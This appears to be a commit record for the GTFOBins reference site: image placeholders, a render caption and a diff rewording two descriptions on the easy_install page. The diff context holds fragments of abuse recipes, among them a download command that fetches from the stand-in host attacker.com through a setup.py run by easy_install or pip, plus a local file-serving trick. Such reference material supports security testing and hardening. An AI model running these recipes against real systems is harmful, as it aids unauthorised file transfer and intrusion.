

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/easy_install.md, in a window 1280 px wide and 900 px high, scrolled down 1060 px. Shown: the part 155-706 px from the top of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Rephrase easy_install descriptions

```diff
--- a/_gtfobins/easy_install.md
+++ b/_gtfobins/easy_install.md
@@ -37,7 +37,7 @@ functions:
         ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
         easy_install $TF
   download:
-    - description: Fetch a remote file via HTTP GET request. It needs an absolute local file path.
+    - description: Fetch a remote file via HTTP GET request. The file path must be absolute.
       code: |
         export URL=http://attacker.com/file_to_get
         export LFILE=/tmp/file_to_save
@@ -49,7 +49,7 @@ functions:
         r.urlretrieve('$URL', '$LFILE')\"\"\")" > $TF/setup.py
         pip install $TF
   file-write:
-    - description: It needs an absolute local file path.
+    - description: The file path must be absolute.
       code: |
         TF=$(mktemp -d)
         echo "import os;
```
